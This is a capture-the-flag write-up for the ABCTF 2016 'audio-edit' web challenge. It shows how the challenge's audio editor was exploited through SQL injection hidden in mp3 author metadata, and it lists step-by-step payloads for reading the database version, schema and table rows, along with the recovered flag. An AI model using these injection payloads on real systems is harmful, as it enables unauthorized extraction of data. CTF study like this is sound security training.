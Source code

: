 # ABCTF 2016 : audio-edit-200

**Category:** Web
**Points:** 200
**Solves:** 21
**Description:**

I made a cool site to edit audio files. [Can you exploit it?](http://107.170.122.6/audioedit/)

## Write-up

The site offers users to upload an mp3 and therewith do some modifications on e.g. pitch or grain size.
In order to save the uploaded file it's inserted into a database.
It can be requested with a identifier delivered as the HTTP-GET parameter 'file'.
The identifier is created as the sha1sum of the mp3 content.
When opening a mp3 that way, the edit-overview shows some modification modulators,
but also the 'Author' as well as the 'Title' of the particular mp3.

![edit.php](images/abctf-2016-audioedit-edit.png)

Some test quickly revealed the input of 'Author' and 'Title' in the mp3-metadata isn't verified
and offers a SQL-injection vulnerability.

We figured the insertion statement looked smth. like this:

    INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'author','title'...);

In order to do an SQL-injection we have to create a special author and title field.
I used [easyTAG](https://wiki.gnome.org/Apps/EasyTAG) but of course you can use the tool of your choice to modify mp3-meta-data;-)
In order to do an injection and maintain a valid INSERTION statement you can create an mp3
with the following meta data:

   
    title  = "" (leer)
    author = a', (SELECT @@version))-- -b

Which creates the following statement

    INSERT INTO audioedit (..., foo, bla, ...) VALUES (..., 'a', (SELECT @@version))-- -b',''...);

The 'a' in the beginning and the 'b' in the end were necessary because the first and last character were
discarded...

This gave us the database version: 5.5.49-0ubuntu0.14.04.1

Next we wanted to know the database name:
    
    author = a', (SELECT database()))-- -b:
    audioedit

And of course the column names:

    author = a',(SELECT column_name FROM information_schema.columns WHERE table_name = 'audioedit' LIMIT x,1))-- -a
    with x in range(0,3):
    id
    file
    author
    title

So finally we wanted see whats in there:

    author = a',(SELECT author FROM audioedit.audioedit LIMIT 0,1))-- -a
    
... but this gave us an insertion error!:(

The problem is you can't select from a database that you're inserting into at the same time... Thanks to Arxenix!:)

So we got around by using AS:

    author = a',(SELECT author FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    ABCTF 
    author = a',(SELECT title FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    flag 
    author = a',(SELECT file FROM audioedit.audioedit as blub LIMIT 0,1))-- -a:
    supersecretflagf1le.mp3
    
Using this info we visited the corresponding site: http://107.170.122.6/audioedit/edit.php?file=supersecretflagf1le.mp3
    
Setting the visualization to 'Sonogram' finally showed us the flag:

    ABCTF{m3t4_inj3cti00n}

![flag](images/abctf-2016-audioedit-flag.png)

## Other write-ups and resources

* http://countersite.org/articles/web-vulnerability/105-audioedit-writeup.html

* http://blog.ankursundara.com/abctf/
